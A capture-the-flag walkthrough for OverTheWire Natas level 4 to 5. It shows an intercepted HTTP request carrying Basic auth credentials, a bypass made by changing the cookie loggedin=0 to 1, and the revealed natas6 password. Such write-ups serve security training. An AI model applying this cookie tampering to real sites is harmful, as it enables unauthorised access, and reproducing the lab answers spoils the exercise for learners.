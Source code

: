 `Link` : `https://overthewire.org/wargames/natas/natas5.html`

## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟒 - 𝐋𝐞𝐯𝐞𝐥 𝟓

## 𝐆𝐢𝐯𝐞𝐧

- Username: natas5
- URL:      `http://natas5.natas.labs.overthewire.org`

## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧

- Visit:      `http://natas5.natas.labs.overthewire.org`
- Notice it says you ain't logged in even if you are!
- Let's check why does that happen.
- Analyze the request (refresh the page & intercept):

 ```
GET / HTTP/1.1
Host: natas5.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
Connection: close
Cookie: loggedin=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```

- Note: `Cookie: loggedin=0`. In programming `0` means false. Change it to `1`
- `Cookie: loggedin=1`
- Boom! 

<div align='center'>
  <img src=https://user-images.githubusercontent.com/68887544/148731291-63368d4e-236d-40b6-8d51-e9901e3255a5.png width=500px>
</div>

- Access granted. The password for natas6 is `aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

